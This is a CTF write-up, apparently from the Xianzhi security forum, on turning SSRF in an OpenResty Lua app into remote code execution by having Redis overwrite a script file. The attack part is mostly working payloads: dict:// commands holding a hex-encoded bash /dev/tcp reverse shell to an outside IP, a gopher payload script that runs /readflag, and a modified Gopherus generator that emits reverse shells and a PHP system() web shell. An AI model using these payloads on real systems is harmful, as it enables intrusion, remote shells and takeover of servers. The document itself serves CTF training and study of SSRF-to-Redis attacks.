





# Lua项目下SSRF利用Redis文件覆盖lua回显RCE-先知社区

> **来源**: https://xz.aliyun.com/news/16471  
> **文章ID**: 16471

---

## 软件安全攻防赛Lua Web项目

lua项目中script文件源码如下

```
##LUA_START##
-- 引入cURL库和Redis库
local curl = require("cURL")
local redis = require("resty.redis")

-- 读取请求体
ngx.req.read_body()
-- 获取请求的URI参数
local args = ngx.req.get_uri_args()
-- 获取URL参数
local url = args.url

-- 如果URL参数缺失，返回错误信息
if not url then
    ngx.say("URL parameter is missing!")
    return
end

-- 创建Redis连接对象
local red = redis:new()
-- 设置Redis连接超时时间为1000毫秒
red:set_timeout(1000)

-- 连接到Redis服务器
local ok, err = red:connect("127.0.0.1", 6379)
-- 如果连接失败，返回错误信息
if not ok then
    ngx.say("Failed to connect to Redis: ", err)
    return
end

-- 从Redis中获取缓存的响应
local res, err = red:get(url)
-- 如果找到缓存的响应且不为空，返回缓存的响应
if res and res ~= ngx.null then
    ngx.say(res)
    return
end

-- 创建cURL对象并设置请求参数
local c = curl.easy {
    url = url,
    timeout = 5,
    connecttimeout = 5
}

-- 初始化响应体存储表
local response_body = {}

-- 设置cURL的写入函数，将响应数据插入到response_body表中
c:setopt_writefunction(table.insert, response_body)

-- 执行cURL请求，并捕获可能的错误
local ok, err = pcall(c.perform, c)

-- 如果请求失败，返回错误信息并关闭cURL对象
if not ok then
    ngx.say("Failed to perform request: ", err)
    c:close()
    return
end

-- 关闭cURL对象
c:close()

-- 将响应体表转换为字符串
local response_str = table.concat(response_body)

-- 将响应字符串存储到Redis中，设置过期时间为3600秒
local ok, err = red:setex(url, 3600, response_str)
-- 如果存储失败，返回错误信息
if not ok then
    ngx.say("Failed to save response in Redis: ", err)
    return
end

-- 返回响应字符串
ngx.say(response_str)
##LUA_END##

```

这段代码的主要功能是从Redis缓存中获取HTTP响应，如果缓存中没有，则通过cURL发送HTTP请求获取响应，将响应缓存到Redis中，并返回响应内容。由于http网址我们可以自己控制，存在SSRF漏洞。

main.lua源码如下

```
-- 定义一个函数用于读取文件内容
local function read_file(filename)
    -- 打开文件以只读模式
    local file = io.open(filename, "r")
    -- 如果文件打开失败，打印错误信息并返回nil
    if not file then
        print("Error: Could not open file " .. filename)
        return nil
    end

    -- 读取文件的全部内容
    local content = file:read("*a")
    -- 关闭文件
    file:close()
    -- 返回文件内容
    return content
end

-- 定义一个函数用于执行Lua代码块
local function execute_lua_code(script_content)
    -- 使用正则表达式从脚本内容中提取Lua代码块
    local lua_code = script_content:match("##LUA_START##(.-)##LUA_END##")
    -- 如果找到有效的Lua代码块
    if lua_code then
        -- 加载Lua代码块
        local chunk, err = load(lua_code)
        -- 如果加载成功
        if chunk then
            -- 使用pcall执行Lua代码块，捕获可能的错误
            local success, result = pcall(chunk)
            -- 如果执行失败，打印错误信息
            if not success then
                print("Error executing Lua code: ", result)
            end
        else
            -- 如果加载失败，打印错误信息
            print("Error loading Lua code: ", err)
        end
    else
        -- 如果没有找到有效的Lua代码块，打印错误信息
        print("Error: No valid Lua code block found.")
    end
end

-- 主函数
local function main()
    -- 定义要读取的文件名
    local filename = "/scripts/visit.script"
    -- 读取文件内容
    local script_content = read_file(filename)
    -- 如果文件内容读取成功，执行Lua代码
    if script_content then
        execute_lua_code(script_content)
    end
end

-- 调用主函数
main()

```

主函数通过读取script文件，把`##LUA_START##(.-)##LUA_END##`包裹的内容当作lua脚本运行

nginx.conf

```
events {
    worker_connections 1024;
}

http {
    include       mime.types;
    default_type  application/octet-stream;

    sendfile        on;
    keepalive_timeout  65;

    server {
        listen       80;
        server_name  localhost;

        location / {
            root   html;
            index  index.html;
        }

        location /visit {
            default_type text/plain;
            content_by_lua_file /usr/local/openresty/nginx/lua/main.lua;
        }

        lua_code_cache off;
    }
}

```

这段配置主要是用来处理 HTTP 请求，默认提供静态文件服务，并且通过 Lua 脚本动态处理 /visit 路径的请求。如果你使用的是 OpenResty，它会让你轻松在 NGINX 中运行 Lua 代码。

看了一下redis配置文件发现本地访问redis无需密码

```
# When protected mode is on and the default user has no password, the server
# only accepts local connections from the IPv4 address (127.0.0.1), IPv6 address
# (::1) or Unix domain sockets.
#
# By default protected mode is enabled. You should disable it only if
# you are sure you want clients from other hosts to connect to Redis
# even if no authentication is configured.

protected-mode yes

```

docker启动文件如下

```
FROM openresty/openresty:bionic
ARG RESTY_LUAROCKS_VERSION="3.11.0"
RUN DEBIAN_FRONTEND=noninteractive apt-get update \
    && DEBIAN_FRONTEND=noninteractive apt-get install -y --no-install-recommends \
        curl \
        libcurl4-openssl-dev \
        make \
        unzip \
        wget \
        lsb-release \
        gpg \
    && cd /tmp \
    && curl -fSL https://luarocks.github.io/luarocks/releases/luarocks-${RESTY_LUAROCKS_VERSION}.tar.gz -o luarocks-${RESTY_LUAROCKS_VERSION}.tar.gz \
    && tar xzf luarocks-${RESTY_LUAROCKS_VERSION}.tar.gz \
    && cd luarocks-${RESTY_LUAROCKS_VERSION} \
    && ./configure \
        --prefix=/usr/local/openresty/luajit \
        --with-lua=/usr/local/openresty/luajit \
        --with-lua-include=/usr/local/openresty/luajit/include/luajit-2.1 \
    && make build \
    && make install \
    && cd /tmp \
    && rm -rf luarocks-${RESTY_LUAROCKS_VERSION} luarocks-${RESTY_LUAROCKS_VERSION}.tar.gz

ENV LUA_PATH="/usr/local/openresty/site/lualib/?.ljbc;/usr/local/openresty/site/lualib/?/init.ljbc;/usr/local/openresty/lualib/?.ljbc;/usr/local/openresty/lualib/?/init.ljbc;/usr/local/openresty/site/lualib/?.lua;/usr/local/openresty/site/lualib/?/init.lua;/usr/local/openresty/lualib/?.lua;/usr/local/openresty/lualib/?/init.lua;./?.lua;/usr/local/openresty/luajit/share/luajit-2.1/?.lua;/usr/local/share/lua/5.1/?.lua;/usr/local/share/lua/5.1/?/init.lua;/usr/local/openresty/luajit/share/lua/5.1/?.lua;/usr/local/openresty/luajit/share/lua/5.1/?/init.lua"

ENV LUA_CPATH="/usr/local/openresty/site/lualib/?.so;/usr/local/openresty/lualib/?.so;./?.so;/usr/local/lib/lua/5.1/?.so;/usr/local/openresty/luajit/lib/lua/5.1/?.so;/usr/local/lib/lua/5.1/loadall.so;/usr/local/openresty/luajit/lib/lua/5.1/?.so"

RUN /usr/local/openresty/luajit/bin/luarocks install Lua-cURL CURL_INCDIR=/usr/include/x86_64-linux-gnu/ && \
    opm get openresty/lua-resty-redis

COPY nginx.conf /usr/local/openresty/nginx/conf/nginx.conf
COPY index.html /usr/local/openresty/nginx/html/index.html
COPY main.lua /usr/local/openresty/nginx/lua/main.lua
RUN mkdir /scripts
COPY scripts/* /scripts
RUN chmod +x -R /scripts


RUN curl -fsSL https://packages.redis.io/gpg | gpg --dearmor -o /usr/share/keyrings/redis-archive-keyring.gpg \
    && echo "deb [signed-by=/usr/share/keyrings/redis-archive-keyring.gpg] https://packages.redis.io/deb $(lsb_release -cs) main" |  tee /etc/apt/sources.list.d/redis.list \
    && apt update \
    && apt install redis language-pack-id -y

COPY redis.conf /redis.conf

COPY start.sh /
RUN chmod +x /start.sh

COPY flag /flag
COPY readflag /readflag
RUN chmod 400 /flag
RUN chmod +xs /readflag

EXPOSE 80
CMD ["/start.sh"]
```

可以看到各个项目文件的位置  
docker本地搭建启动后页面如下，可以访问网址



用redis-over-gopher一直打不通测试发现gopher一直timeout用不了，

[sec\_tools/redis-over-gopher at master · firebroo/sec\_tools · GitHub](https://github.com/firebroo/sec_tools/tree/master/redis-over-gopher "sec_tools/redis-over-gopher at master · firebroo/sec_tools · GitHub")  
用dict测试访问redis端口可以

```
dict://127.0.0.1:6379/info

```

  
之后发现可以通过写入script文件来代码执行  
lua执行系统命令函数是

```
os.execute()

```

#### dict协议打法

写文件visit.script覆盖，写入的时候可以用16进制直接写入，防止有些特殊字符会出错

```
dict://127.0.0.1:6379/flushall
dict://127.0.0.1:6379/config:set:dir:/scripts
dict://127.0.0.1:6379/config:set:dbfilename:visit.script

dict://127.0.0.1:6379/set:a:"\x23\x23\x4c\x55\x41\x5f\x53\x54\x41\x52\x54\x23\x23\x6f\x73\x2e\x65\x78\x65\x63\x75\x74\x65\x28\x22\x62\x61\x73\x68\x20\x2d\x63\x20\x20\x27\x73\x68\x20\x2d\x69\x20\x3e\x26\x20\x2f\x64\x65\x76\x2f\x74\x63\x70\x2f\x31\x32\x34\x2e\x32\x32\x30\x2e\x33\x37\x2e\x31\x37\x33\x2f\x32\x33\x33\x33\x20\x30\x3e\x26\x31\x27\x22\x29\x23\x23\x4c\x55\x41\x5f\x45\x4e\x44\x23\x23"
dict://127.0.0.1:6379/save

```

**注意**：由于**redis save保存的是二进制信息会有版本之类的信息（脏数据）**，所以单纯的写入并不能执行会报错。题目中的读取是有`##LUA_START## ##LUA_END##`包裹的，所以才能准确执行。

#### lua回显打法

如果不出网可以这样回显，把lua命令执行的结果到浏览器中

```
local handle = io.popen('/readflag') 
local output = handle:read("*a") 
handle:close() 
ngx.say("<html><body>") 
ngx.say("<h1>Command Output:</h1>") 
ngx.say("<pre>" .. ngx.escape_html(output) .. "</pre>")

```

编写脚本 bp上传二次编码即可

```
import urllib.parse
host = "127.0.0.1:6379"

test =\
r"""set  margin  "\n\n\n##LUA_START##ngx.say((function() local f = io.popen('/readflag');local r = f:read('*all');f:close();return r end)())##LUA_END##\n\n\n"
config set dir /scripts/
config set dbfilename "visit.script"
save"""
tmp = urllib.parse.quote(test)
new = tmp.replace("%0A","%0D%0A")

a="gopher://"+host+"/_"+new
result = urllib.parse.quote(a)
print(result)

```

当然我们修改gopherus工具的/scripts/Redis.py来生成payload写入文件(原来的功能是写入计划任务反弹shell)

```
import urllib

def Redis():
    def get_Redis_ReverseShell():
        file="visit.script"
        dir="/scripts"
        cmd = '##LUA_START##os.execute("bash -c \'sh -i &>/dev/tcp/ip/port 0>&1\'")##LUA_END##'
        len_cmd = len(cmd) + 5
        payload = """*1\r
$8\r
flushall\r
*3\r
$3\r
set\r
$1\r
1\r
$""" + str(len_cmd) + """\r


""" + cmd + """


\r
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$""" + str(len(dir)) + """\r
""" + dir + """\r
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
$"""+str(len(file))+"""\r
"""+file+""""\r
*1\r
$4\r
save\r

"""
        finalpayload = urllib.quote_plus(payload).replace("+","%20").replace("%2F","/").replace("%25","%").replace("%3A",":")
        print "\033[93m" +"\nYour gopher link is ready to get Reverse Shell: \n"+ "\033[0m"
        print "\033[04m" +"gopher://127.0.0.1:6379/_" + finalpayload+ "\033[0m"
        print "\033[01m" +"\nBefore sending request plz do `nc -lvp 1234`"+ "\033[0m"
        print "\n" + "\033[41m" +"-----------Made-by-SpyD3r-----------"+"\033[0m"


    def get_Redis_PHPShell():
        web_root_location = raw_input("\033[96m" +"\nGive web root location of server (default is /var/www/html): "+ "\033[0m")
        php_payload = raw_input("\033[96m" +"Give PHP Payload (We have default PHP Shell): "+ "\033[0m")
        default = "<?php system($_GET['cmd']); ?>"
        if(not php_payload):
            php_payload = default
        if(not web_root_location):
            web_root_location = "/var/www/html"
        payload = """*1\r
$8\r
flushall\r
*3\r
$3\r
set\r
$1\r
1\r
$""" + str(len(php_payload) + 4) + """\r


""" + php_payload + """

\r
*4\r
$6\r
config\r
$3\r
set\r
$3\r
dir\r
$""" + str(len(web_root_location)) + """\r
""" + web_root_location + """\r
*4\r
$6\r
config\r
$3\r
set\r
$10\r
dbfilename\r
$9\r
shell.php\r
*1\r
$4\r
save\r

"""
        finalpayload = urllib.quote_plus(payload).replace("+","%20").replace("%2F","/").replace("%25","%").replace("%3A",":")
        print "\033[93m" +"\nYour gopher link is Ready to get PHP Shell: \n"+ "\033[0m"
        print "\033[04m" +"gopher://127.0.0.1:6379/_" + finalpayload+ "\033[0m"
        print "\033[01m"+"\nWhen it's done you can get PHP Shell in /shell.php at the server with `cmd` as parmeter. "+ "\033[0m"
        print "\n" + "\033[41m" +"-----------Made-by-SpyD3r-----------"+"\033[0m"


    print "\033[01m"+"\nReady To get SHELL\n"+ "\033[0m"
    what = raw_input("\033[35m" +"What do you want?? (ReverseShell/PHPShell): "+ "\033[0m")
    what = what.lower()
    if("rev" in what):
        get_Redis_ReverseShell()
    elif("php" in what):
        get_Redis_PHPShell()
    else:
        print "\033[93m" +"Plz choose between those two"+ "\033[0m"
        exit()

```

运行gopherus

```
python2 gopherus.py --exploit redis

```



之后我们直接传进去即可反弹shell成功



再次用visit访问url就会运行新写入的lua脚本反弹shell


